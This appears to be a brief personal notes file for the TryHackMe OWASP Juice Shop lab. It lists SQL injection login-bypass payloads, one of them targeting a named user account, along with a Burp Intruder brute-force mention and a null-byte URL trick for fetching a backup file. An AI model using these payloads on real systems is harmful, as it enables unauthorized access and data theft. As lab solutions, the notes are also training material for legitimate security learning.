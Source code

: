 # OWASP Jucy Shop

# Date: 16.09.2020

IP:`10.10.234.58`

------------
find in html code YT link: https://www.youtube.com/watch?v=9PnbKL3wuH4

--
# SQL injection

1. `' OR 1=1 --'`
2. `email --`
3. bender@juice-sh.op --> burp intruder brutforce ... takes time thatswhy i found other way: `' or 1=1 and email like('%bender%');--`

http://10.10.234.58/ftp/package.json.bak%2500.md

OWASP Juice Shop - I have just completed this room! Check it out:  https://tryhackme.com/room/owaspjuiceshop #tryhackme #juiceshop #burp #OWASP #web #seclists #XSS #SQLi #owaspjuiceshop
